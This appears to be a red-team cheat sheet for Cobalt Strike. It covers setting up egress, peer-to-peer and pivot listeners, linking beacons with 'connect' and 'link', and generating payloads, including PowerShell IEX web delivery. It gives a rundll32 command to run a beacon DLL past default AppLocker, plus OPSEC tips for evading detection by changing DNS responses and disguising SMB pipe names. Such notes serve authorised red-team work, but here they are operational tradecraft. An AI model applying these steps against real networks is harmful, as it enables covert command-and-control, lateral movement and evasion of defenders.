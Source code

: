 ### Listeners
### Create a listener
- Two type of listeners: `egress` (HTTP(S) and DNS) and `peer-to-peer` (SMB or TCP).
  - `egress` listens on the teamserver IP.
  - `peer-to-peer` listens on a existing beacon.  	
1. In the menu click the HeadPhones Icon or click Cobalt Strike --> Listeners 
2. Click the Add button at the bottom and and a new listener dialogue will appear.
3. Choose a descriptive name such as ```<protocol>-<port>``` example: ```http-80```.
4. Set the variables/settings and click Save.
- Creating a TCP local listener is usefull for privescing or spawning new shells

#### Create peer-to-peer listener
- Creating P2P listeners can be done in the Listeners menu, by selecting the TCP or SMB Beacon payload type.
- Then create payload for the new listener!

### Create pivot listener
- To start a Pivot Listener on an existing Beacon, right-click Pivoting --> Listener.
- Might need to open port on the firewall

#### Connect to pivot listener
- Works like a bind shell. Most used are SMB or TCP.
- Run the payload on the target
- Connect to the beacon with ```link``` for smb and ```connect``` for tcp.
```
connect <IP> <PORT>
link <IP> <PIPE>
```
#### OPSEC listeners
- DNS: Since 0.0.0.0 is the default response (and also rather nonsensical), Cobalt Strike team servers can be fingerprinted in this way.  This can be changed in the Malleable C2 profile.
- SMB: The default pipe name(`msagent_XX`) is quite well signatured. A good strategy is to emulate names known to be used by common applications or Windows itself.  Use `ls \\.\pipe\` to list all currently listening pipes for inspiration.  

### Payloads
#### Create payloads
- Click Payloads --> Select an option or all

#### Powershell payload
- Click Attacks --> Scripted web delivery (S) --> Choose a URI path, listener and select type PowerShell IEX

#### Create dll payload
- Bypasses default applocker configuration
```
C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
link <COMPUTERNAME>
```

